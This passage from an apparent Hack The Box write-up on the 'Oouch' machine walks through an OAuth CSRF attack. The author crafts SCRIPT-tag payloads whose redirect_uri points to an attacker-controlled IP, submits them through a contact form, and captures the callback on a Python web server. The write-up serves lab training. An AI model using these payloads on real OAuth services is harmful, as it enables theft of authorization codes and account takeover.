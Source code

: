 We now simply have to change the `client_id`, the `redirection_uri` and `scope` to this:

```http
http://authorization.oouch.htb:8000/oauth/authorize/?client_id=7YJVVnOlyPJqYH3xn8twXstOlYf0ULPGCPPSiQrF&response_type=code&redirect_uri=http://10.10.14.29/&scope=invalid
```

We can again craft a CSRF payload out of this:

```js
<SCRIPT src="http://authorization.oouch.htb:8000/oauth/authorize/?client_id=7YJVVnOlyPJqYH3xn8twXstOlYf0ULPGCPPSiQrF&response_type=code&redirect_uri=http://10.10.14.29/&scope=invalid"></SCRIPT>
```

Let us again send the CSRF payload in the contact form.

```bash
root@darkness:~# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.177 - - [15/Jul/2020 14:44:59] "GET /?error=invalid_scope HTTP/1.1" 200 -
```

Ok so we do get a redirection, however we do not get any interesting data. Let us create another application and modify our CSRF-exploit a bit.

![Exploit App](/assets/htb/Oouch/app-exploit.png)

```js
<SCRIPT src="http://authorization.oouch.htb:8000/oauth/authorize/?client_id=2EGSpGjNkCY95BHuUvfXjjTm598NlnzrLN07cDTQ&response_type=code&redirect_uri=http://10.10.14.29/&scope=write&allow=1"></SCRIPT>
```

After sending the payload in the contact field, we get a callback on our webserver.
